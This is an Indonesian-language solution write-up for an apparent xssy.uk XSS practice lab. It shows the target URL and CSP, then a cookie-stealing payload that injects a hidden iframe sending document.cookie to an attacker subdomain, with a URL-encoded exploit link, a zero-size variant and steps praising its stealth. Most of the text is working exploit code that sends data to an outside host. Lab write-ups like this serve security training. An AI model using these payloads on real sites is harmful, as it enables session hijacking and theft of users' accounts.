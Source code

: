 ### URL & Parameter Lab
```
https://pzcihwu2.xssy.uk/target.ftl?name=
```

### CSP yang Diterapkan
```
default-src 'none'; 
img-src https://xssy.uk/; 
style-src 'unsafe-inline'; 
script-src 'unsafe-inline'
```

### Penjelasan Teknik
Membuat iframe yang src-nya mengarah ke server attacker dengan data di URL. Iframe melakukan request terpisah, sehingga data ter-exfiltrate tanpa mengubah halaman utama. Ini lebih stealth karena user tidak sadar ada request tambahan.

### Full URL, Parameter & Payload

**Payload:**
```javascript
<script>
var iframe = document.createElement('iframe');
iframe.src = 'https://eqh42jmm.xssy.uk/?c='+document.cookie;
iframe.style.display = 'none';
document.body.appendChild(iframe);
</script>
```

**URL Encoded:**
```
https://pzcihwu2.xssy.uk/target.ftl?name=%3Cscript%3E%0Avar%20iframe%20%3D%20document.createElement%28%27iframe%27%29%3B%0Aiframe.src%20%3D%20%27https%3A%2F%2Feqh42jmm.xssy.uk%2F%3Fc%3D%27%2Bdocument.cookie%3B%0Aiframe.style.display%20%3D%20%27none%27%3B%0Adocument.body.appendChild%28iframe%29%3B%0A%3C%2Fscript%3E
```

**Variasi dengan dimensi kecil:**
```javascript
<script>
var iframe = document.createElement('iframe');
iframe.src = 'https://eqh42jmm.xssy.uk/?c='+document.cookie;
iframe.width = '0';
iframe.height = '0';
iframe.style.border = 'none';
document.body.appendChild(iframe);
</script>
```

### Cara Kerja
1. XSS payload di-inject melalui parameter `name`
2. Script membuat element `<iframe>` secara dinamis
3. Attribute `src` di-set ke URL attacker dengan cookie
4. Iframe disembunyikan dengan `display: none` atau size 0
5. Iframe ditambahkan ke body page
6. Browser load iframe src (HTTP request ke attacker)
7. Cookie dikirim dalam URL request
8. Server attacker menerima dan log data
9. Halaman utama tidak berubah (stealth)
